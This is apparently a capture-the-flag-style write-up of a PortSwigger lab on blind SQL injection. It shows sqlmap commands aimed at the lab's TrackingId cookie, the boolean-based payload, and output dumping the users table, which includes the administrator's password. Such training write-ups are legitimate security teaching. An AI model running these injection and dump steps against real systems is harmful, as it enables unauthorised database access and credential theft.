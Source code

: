 ```yaml
---
author: Nithissh S
pubDatetime: 2024-09-09T15:22:00Z
modDatetime: 2024-09-09T09:12:47.400Z
title: Blind SQL injection with conditional responses
slug: sqli-portswigger-lab-11
featured: false
draft: false
tags:
  - BSCP
  - SQL Injection
description:
  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows. The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.   
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution 

When I put `'` into all the sensitive areas like cookie, param value and Interrstingly, the trackingId value is vulnerable to Blind SQL injection 

Because when u don't add `'` into `trackingId` you will see a string called `Welcome back` 

![](../../assets/images/bscp/sqli/sqli47.png)

But when you add `'` and `Welcome back` string disappears 

![](../../assets/images/bscp/sqli/sqli48.png)

With `SQLmap` we can automate further and here we found this application is vulnerable to a SQL injection and it uses `PostgreSQL` 

```sh
$ sqlmap -u "https://0aba00e704a0e247d90aa592003b00b9.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" --level 3 

[11:05:47] [INFO] Cookie parameter 'TrackingId' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Welcome back!")
[11:05:47] [INFO] testing 'Generic inline queries'
[11:05:47] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:05:48] [INFO] testing 'PostgreSQL error-based - Parameter replace'
[11:05:48] [INFO] testing 'PostgreSQL inline queries'
[11:05:48] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:05:49] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc - comment)'
[11:05:49] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:05:55] [INFO] testing 'PostgreSQL > 8.1 time-based blind - Parameter replace'
[11:05:55] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:05:55] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:05:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:05:58] [INFO] target URL appears to have 1 column in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
[11:06:19] [INFO] target URL appears to be UNION injectable with 1 columns
[11:06:21] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[11:06:31] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[11:06:40] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[11:06:49] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[11:06:59] [INFO] checking if the injection point on Cookie parameter 'TrackingId' is a false positive
Cookie parameter 'TrackingId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 480 HTTP(s) requests:
---
Parameter: TrackingId (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: TrackingId=4HWFjkvkQS0pdMwd' AND 9875=9875-- jCQf; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i
---
[11:07:12] [INFO] testing PostgreSQL
[11:07:12] [INFO] confirming PostgreSQL
[11:07:13] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:07:24] [INFO] fetched data logged to text files under '/Users/nits/.local/share/sqlmap/output/0aba00e704a0e247d90aa592003b00b9.web-security-academy.net'

[*] ending @ 11:07:24 /2024-09-22/
```

Dumping the database and found the `administrator` credentials being dumped out 

```sh
 nits@FWS-CHE-LT-8869  /tmp  sqlmap -u "https://0aba00e704a0e247d90aa592003b00b9.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" --level 3 --dbms="postgreSQL" --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:08:20 /2024-09-22/

[11:08:21] [INFO] testing connection to the target URL
[11:08:22] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: TrackingId (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: TrackingId=4HWFjkvkQS0pdMwd' AND 9875=9875-- jCQf; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i
---
[11:08:22] [INFO] testing PostgreSQL
[11:08:22] [INFO] confirming PostgreSQL
[11:08:22] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:08:22] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:08:22] [INFO] fetching current database
[11:08:22] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:08:22] [INFO] retrieved: 
do you want to URL encode cookie values (implementation specific)? [Y/n] n
public
[11:08:51] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
[11:08:51] [INFO] fetching tables for database: 'public'
[11:08:51] [INFO] fetching number of tables for database 'public'
[11:08:51] [INFO] retrieved: 2
[11:08:55] [INFO] retrieved: tracking
[11:09:30] [INFO] retrieved: users
[11:09:53] [INFO] fetching columns for table 'tracking' in database 'public'
[11:09:53] [INFO] retrieved: 1
[11:09:56] [INFO] retrieved: id
[11:10:11] [INFO] fetching entries for table 'tracking' in database 'public'
[11:10:11] [INFO] fetching number of entries for table 'tracking' in database 'public'
[11:10:11] [INFO] retrieved: 1
[11:10:14] [INFO] retrieved: 4HWFjkvkQS0pdMwd
Database: public
Table: tracking
[1 entry]
+------------------+
| id               |
+------------------+
| 4HWFjkvkQS0pdMwd |
+------------------+

[11:11:38] [INFO] table 'public.tracking' dumped to CSV file '/Users/nits/.local/share/sqlmap/output/0aba00e704a0e247d90aa592003b00b9.web-security-academy.net/dump/public/tracking.csv'
[11:11:38] [INFO] fetching columns for table 'users' in database 'public'
[11:11:38] [INFO] retrieved: 3
[11:11:41] [INFO] retrieved: email
[11:11:58] [INFO] retrieved: password
[11:12:32] [INFO] retrieved: username
[11:13:02] [INFO] fetching entries for table 'users' in database 'public'
[11:13:02] [INFO] fetching number of entries for table 'users' in database 'public'
[11:13:02] [INFO] retrieved: 3
[11:13:06] [INFO] retrieved:  
[11:13:11] [INFO] retrieved: 5hfnoaj3hayybellcxwy
[11:14:22] [INFO] retrieved: administrator
[11:15:15] [INFO] retrieved:  
[11:15:20] [INFO] retrieved: 
```

With those credentials logged in as `administrator` and lab is solved 

![](../../assets/images/bscp/sqli/sqli49.png)